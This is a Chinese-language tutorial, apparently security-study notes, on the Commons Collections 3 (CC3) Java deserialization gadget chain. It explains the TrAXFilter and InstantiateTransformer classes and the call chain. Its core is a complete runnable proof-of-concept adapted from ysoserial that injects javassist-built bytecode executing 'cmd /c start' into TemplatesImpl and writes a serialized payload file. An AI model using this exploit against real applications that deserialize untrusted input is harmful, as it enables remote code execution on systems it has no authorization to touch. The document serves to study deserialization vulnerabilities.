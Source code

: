 ## 环境准备

JDK1.7(7u80)、commons-collections(3.x 4.x均可这里使用3.2版本)、javassist(3.12.1.GA)

JDK：https://repo.huaweicloud.com/java/jdk/7u80-b15/jdk-7u80-windows-x64.exe

cc4.0、ClassPool的mvn依赖如下

```xml
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2</version>
</dependency>
<dependency>
    <groupId>javassist</groupId>
    <artifactId>javassist</artifactId>
    <version>3.12.1.GA</version>
</dependency>

```

因为这里用到了Proxy，所以JDK8新版本中不可用，在CC5中提到了一种新的利用方式，可以不通过Proxy来调用。

## 正文

CC3 攻击链的关键在于利用 **`Templates`** 和 **`ChainedTransformer`**、 **`ConstantTransformer`**、**`InstantiateTransformer`**类来形成一系列的反射调用，最终触发恶意类的加载或执行。

本质上来说CC3攻击链条是CC2中的`Templates`部分+CC1中的`Proxy`部分，所以大家都说CC3是CC1和CC2的变种写法。其实CC攻击链并非只有一种固定写法，可以通过多种写法的结合来完成新的攻击链，当把`ysoserial`中的CC链学完之后，就可以自己尝试自由组合。

CC3中多了几个类：

## TrAXFilter

`TrAXFilter` 类是 Java 中 XML 处理相关的一个类，属于 Java XML API 的一部分。它主要用于过滤和处理 XML 数据流。`TrAXFilter` 实现了 `javax.xml.transform.sax.SAXResult` 接口，提供了对 XML 数据流的接收、处理和转换能力。在一些利用中，特别是在 Java 反序列化漏洞的利用链（如 CC3）中，`TrAXFilter` 被用作利用链的一部分，因为它的构造函数涉及到了 `Templates` 类对象，并且其操作可以被利用来执行恶意代码。

### CC3中的应用

**配合 `ChainedTransformer`：** 在 CC3 中，`TrAXFilter` 通常与 **`ChainedTransformer`** 类结合使用。`ChainedTransformer` 允许多个 `Transformer` 被顺序调用，从而达到多层嵌套和最终执行恶意操作的效果。`TrAXFilter` 是作为其中一个 `Transformer` 使用的，它的构造函数需要传入 `Templates` 对象，而 `Templates` 可以携带恶意字节码。

**执行恶意代码：** 当反序列化触发时，构造的 `TrAXFilter` 会被激活，并且它会通过 `Templates` 生成恶意的 XML 转换过程。具体来说，`TrAXFilter` 作为一个过滤器，可以与 `Templates` 类结合，完成从普通 XML 到恶意命令的转换。这就允许通过 XML 数据流来触发恶意代码的执行。

### 关键代码

```java
public class TrAXFilter extends XMLFilterImpl {
    private Templates              _templates;
    private TransformerImpl        _transformer;
    private TransformerHandlerImpl _transformerHandler;
    private boolean _overrideDefaultParser;
	// 构造函数接收一个Templates参数
    public TrAXFilter(Templates templates)  throws
        TransformerConfigurationException
    {
        _templates = templates;
        // 执行templates的newTransformer方法，而newTransformer就是CC2链中提到的最终执行恶意代码的逻辑
        _transformer = (TransformerImpl) templates.newTransformer();
        _transformerHandler = new TransformerHandlerImpl(_transformer);
        _overrideDefaultParser = _transformer.overrideDefaultParser();
    }
}
```

## InstantiateTransformer

有了上述 gadget ，接下来的重点就是需要我们实例化这个 TrAXFilter，实例化我们当然可以使用 InvokerTransformer 反射拿到 Constructor 再 newInstance，但是同样地可以直接使用另外一个 Transformer：InstantiateTransformer。

Commons Collections 提供了 InstantiateTransformer 用来通过反射创建类的实例，可以看到 `transform()` 方法实际上接收一个 Class 类型的对象，通过 `getConstructor` 获取构造方法，并通过 `newInstance` 创建类实例。

### 关键代码

```java
public class InstantiateTransformer implements Transformer, Serializable {
    private final Class[] iParamTypes;
    private final Object[] iArgs;

    public InstantiateTransformer(Class[] paramTypes, Object[] args) {
        this.iParamTypes = paramTypes;
        this.iArgs = args;
    }
    public Object transform(Object input) {
    	......
        // 获取input的Class对象的构造方法，并调用构造方法创建实例对象
        // 如果input=TrAXFilter.class，iParamTypes=Templates.class。则最终就能调用到TrAXFilter(Templates templates)
        Constructor con = ((Class)input).getConstructor(this.iParamTypes);
        return con.newInstance(this.iArgs);
        ......
    }
}
```

基于CC2和CC1的内容，我们可以构造出来以下的POC代码

## POC - ysoserial代码

下边的代码还是基于ysoserial的代码的改造版本，不使用ysoserial中的模板代码和工具类，下边的代码可以直接在本地运行。

```java
public class CommonsCollections3 {
    static String serialFileName = "commons-collections3.ser";

    public static void main(String[] args) throws Exception {
        cc3byYsoSerial();
        verify();
    }

    public static void verify() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object ignore = (Object) ois.readObject();
    }

    public static void cc3byYsoSerial() throws Exception {
        //==========================CC2中的构造Templates的内容 START==========================
        String executeCode = "Runtime.getRuntime().exec(\"cmd /c start\");";
        ClassPool pool = ClassPool.getDefault();
        CtClass evil = pool.makeClass("ysoserial.Evil");
        // run command in static initializer
        // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
        evil.makeClassInitializer().insertAfter(executeCode);
        // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
        evil.setName("ysoserial.Pwner" + System.nanoTime());
        CtClass superC = pool.get(AbstractTranslet.class.getName());
        evil.setSuperclass(superC);

        final byte[] classBytes = evil.toBytecode();
        byte[][] trueclassbyte = new byte[][]{classBytes};

        Class<TemplatesImpl> templatesClass = TemplatesImpl.class;
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, trueclassbyte);

        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "Pwnr");

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates, new TransformerFactoryImpl());
        //==========================CC2中的构造Templates的内容 END==========================

        //========================CC3的新增调用方式START==============================
        // inert chain for setup
        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{ new ConstantTransformer(1) });
        // real chain for after setup
        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(
                        new Class[] { Templates.class },
                        new Object[] { templates } )};
        //=========================CC3的新增调用方式 END===================================

        //=========================CC1中的动态代理方式 反序列化触发 START===========================
        // 等同于ysoserial中的Reflections.setFieldValue(transformerChain, "iTransformers", transformers);写法
        Class<?> transformer = Class.forName(ChainedTransformer.class.getName());
        Field iTransformers = transformer.getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(transformerChain, transformers);

        // 先创建LazyMap，用来将transformerChain包装成一个Map，当Map中的get方法被触发时就能直接触发到调用链
        final Map lazyMap = LazyMap.decorate(new HashMap(), transformerChain);
        // 构造动态代理
        final Constructor<?> ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        ctor.setAccessible(true);
        // 创建携带着 LazyMap 的 AnnotationInvocationHandler 实例
        InvocationHandler handler = (InvocationHandler) ctor.newInstance(Documented.class, lazyMap);
        // 创建LazyMap的动态代理类实例
        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), LazyMap.class.getInterfaces(), handler);

        // 使用动态代理初始化 AnnotationInvocationHandler
        InvocationHandler invocationHandler = (InvocationHandler) ctor.newInstance(Documented.class, mapProxy);
        //=========================CC1中的动态代理方式 反序列化触发 END===========================

        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(invocationHandler);
        oos.flush();
        oos.close();
        fos.close();
    }
}
```

运行效果如下

![image-20241119105439855](./main.assets/cc3-1.png)

## 调用链

调用链就是CC1和CC2的结合版本，如下：

* ObjectInputStream.readObject()
  * AnnotationInvocationHandler.readObject()
    * Map(Proxy).entrySet()
      * AnnotationInvocationHandler.invoke()
        * LazyMap.get()
          * ChainedTransformer.transform()
            * ConstantTransformer.transform()		TrAXFilter
            * InvokerTransformer.transform()		  Templates
              * TrAXFilter()				           Templates
                * TemplatesImpl.newTransformer()
                * TemplatesImpl.getTransletInstance()
                * ......
                * 触发静态代码调用

